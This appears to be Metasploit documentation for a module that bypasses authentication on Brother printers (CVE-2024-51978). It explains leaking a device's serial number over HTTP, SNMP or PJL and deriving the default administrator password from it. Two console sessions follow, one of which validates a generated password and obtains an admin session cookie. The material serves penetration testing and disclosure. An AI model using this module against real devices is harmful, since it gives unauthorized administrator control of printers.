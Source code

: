 ## Vulnerable Application

By leaking a target devices serial number, a remote attacker can generate the target devices default
administrator password. The target device may leak its serial number via unauthenticated HTTP, HTTPS, IPP,
SNMP, or PJL requests.

## Testing
Run the module against a vulnerable device (full list [here](https://www.cve.org/CVERecord?id=CVE-2024-51978)).
If the default password is correctly generated, the module will be able to verify this. 

The module will also report an HTTP cookie `AuthCookie` which can be used, for example via Burp's proxy feature, to
get access to an administrator session on the target devices web interface.

## Verification Steps

1. Start msfconsole
2. `use auxiliary/admin/misc/brother_default_admin_auth_bypass_cve_2024_51978`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `run`

## Options

### TargetSerial
A serial number to use for this target. If none is specified, the target will be queried via either HTTP, SNMP, or PJL
to discover the serial number (as per the `DiscoverSerialVia` option).

### DiscoverSerialVia
The technique to use to discover the serial number. Can be one of `AUTO`, `HTTP`, `SNMP`, or `PJL`. The default is `AUTO`.

### SaltLookupIndex
The index into the salt table to use when generating the default password. The default is `254`, which is the expected
value for Brother devices.

### SaltData
The salt data to use when generating the default password. By default, no salt data is required.

### ValidatePassword
Validate the default password by attempting to login. By default, this is set to `true`.

## Scenarios

_Note: In these example scenarios, the leaked serial numbers have been redacted with `***************`._

### MFC-L9570CDW

In this example, the target `MFC-L9570CDW` device was running the latest firmware at the time of testing (June 20, 2025),
whereby the `MAIN` version was `ZQ2503251054`, and the `SUB1` version was `1.35`. We can note that while the serial
number could not be leaked via HTTPS (via CVE-2024-51977), we were able to leak the serial number via SNMP and then
proceed to generate the correct default administrator password. The module validated that this password value is still
the default administrator password for the device.

```
msf auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > set VERBOSE true
VERBOSE => true
msf auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > set RHOSTS 192.168.86.62
RHOSTS => 192.168.86.62
msf auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > show options 

Module options (auxiliary/admin/misc/brother_default_admin_auth_bypass_cve_2024_51978):

   Name               Current Setting            Required  Description
   ----               ---------------            --------  -----------
   COMMUNITY          public                     yes       SNMP Community String
   PJL_RPORT          9100                       yes       The target port number for PJL
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]. Supported p
                                                           roxies: sapni, socks4, socks5, socks5h, http
   RETRIES            1                          yes       SNMP Retries
   RHOSTS             192.168.86.62              yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                                           /basics/using-metasploit.html
   RPORT              443                        yes       The target port (TCP)
   SNMP_OID_SERAILNO  1.3.6.1.2.1.43.5.1.1.17.1  yes       The SNMP OID for the serial number
   SNMP_RPORT         161                        yes       The target port number for SNMP
   SSL                true                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                          yes       The base URI path to the web admin console
   TIMEOUT            1                          yes       SNMP Timeout
   VERSION            1                          yes       SNMP Version <1/2c>
   VHOST                                         no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > run
[*] Running module against 192.168.86.62
[*] Attempting to leak serial number via HTTP
[-] Unexpected HTTP response code: 302
[*] Attempting to leak serial number via SNMP
[*] Leaked target serial number via SNMP: ***************
[*] Generating default password with salt lookup index 254 and salt data 7HOLDhk'
[*] Generated password value: r/5LM&U>
[*] Attempting to validate password
[*] Received an AuthCookie value: bi56MaYmMOhcwuH8miqCW5YvSGqKRqr8EOgiAr0yA20%3D
[+] Successfully validated the administrator password: r/5LM&U>
[*] Auxiliary module execution completed
msf auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) >
```

### DCP-L2530DW

In this example, the target `DCP-L2530DW` device was running the following firmware version, whereby the `MAIN` version
was `ZC2403082049`, and the `SUB1` version was `1.04`. We can note that the serial number was successfully leaked via
HTTPS (via CVE-2024-51977), however the password value generated was not the devices default password, so validation
did not succeed.

```
msf auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > set RHOSTS 192.168.86.3
RHOSTS => 192.168.86.3
msf auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > show options 

Module options (auxiliary/admin/misc/brother_default_admin_auth_bypass_cve_2024_51978):

   Name               Current Setting            Required  Description
   ----               ---------------            --------  -----------
   COMMUNITY          public                     yes       SNMP Community String
   PJL_RPORT          9100                       yes       The target port number for PJL
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]. Supported p
                                                           roxies: sapni, socks4, socks5, socks5h, http
   RETRIES            1                          yes       SNMP Retries
   RHOSTS             192.168.86.3               yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                                           /basics/using-metasploit.html
   RPORT              443                        yes       The target port (TCP)
   SNMP_OID_SERAILNO  1.3.6.1.2.1.43.5.1.1.17.1  yes       The SNMP OID for the serial number
   SNMP_RPORT         161                        yes       The target port number for SNMP
   SSL                true                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                          yes       The base URI path to the web admin console
   TIMEOUT            1                          yes       SNMP Timeout
   VERSION            1                          yes       SNMP Version <1/2c>
   VHOST                                         no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > run
[*] Running module against 192.168.86.3
[*] Attempting to leak serial number via HTTP
[*] Leaked target serial number via HTTP: ***************
[*] Generating default password with salt lookup index 254 and salt data 7HOLDhk'
[*] Generated password value: pX-KDn3+
[*] Attempting to validate password
[-] Failed to login with the administrator password: pX-KDn3+
[*] Auxiliary module execution completed
msf auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) >
```
